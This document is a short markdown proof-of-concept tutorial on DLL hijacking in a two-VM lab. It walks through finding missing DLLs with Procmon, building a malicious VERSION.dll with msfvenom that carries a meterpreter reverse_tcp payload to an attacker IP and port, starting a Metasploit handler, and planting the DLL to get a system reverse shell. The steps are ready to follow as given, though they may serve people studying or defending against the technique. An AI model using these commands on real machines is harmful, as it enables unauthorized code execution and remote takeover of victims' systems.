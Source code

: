 # DLL Hijacking

DLL files contains executable code that can be used by other applications. When an application needs to use this DLL file, it has to search for it if the absolute path is not provided. If an attacker replaces his own DLL file with the name that the application is searching for, then the application loads the attacker’s DLL and executes the malicious code. This is known as DLL Hijacking Attack.

## Tools Required:
- VMWare, Procmon (Process Monitor), MsfVenom
- Create two Virtual Machine:
  - Windows OS (Exe Application Executing)
  - Kali Linux (Attacker Machine)

## POC

> **Step-1: Identifying Vulnerable DLLs that we can Hijack.**
 - Start Application
 - Open Procmon tool 
 - Apply three filters in Procmon (Menu Filter -> Filter)
     1. Process Name = contains = "Select Your Application Name" -> Add
     2. Path         = contains = ".dll"                         -> Add 
     3. Result       = contains = "NAME NOT FOUND"               -> Add
   
 - Click OK for apply filters.
> **Step-2: Closed the application and Re-open that application so all the process according to filter will show in** ***Procmon***  

> **Step-3: Now find the Dlls which are trying to load from current working application and is not available** ***(e.g: VERSION.DLL)*** 
            Application is trying to load this DLL but not able to find in to the application directory.
            
> **Step-4: Next step is create malicious DLL named VERSION.DLL using** ***MsfVenom (Kali Linux)***

    ``$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.252.130 LPORT=8888 -f dll > VERSION.dll``

> **Step-5: Now create reverse shell handler with msfconsole**

    ``$ sudo msfconsole
      
      msf > use exploit/multi/handler

      msf exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
      payload => windows/meterpreter/reverse_tcp

      msf exploit(multi/handler) > set LHOST 192.168.252.130  (Replace your attacker machine IP i.e Kali Linux IP)
      LHOST => 192.168.252.130

      msf exploit(multi/handler) > set LPORT 8888
      LPORT => 8888

      msf exploit(multi/handler) > exploit  
    ``
   Done..! 

> **Step-6: Reverse shell handler created, now paste malicious DLL(created through Step-4) in to the application directory and launch application**

   As you can see application is trying to loan the malicious DLL without checking it and we got system reverse shell.

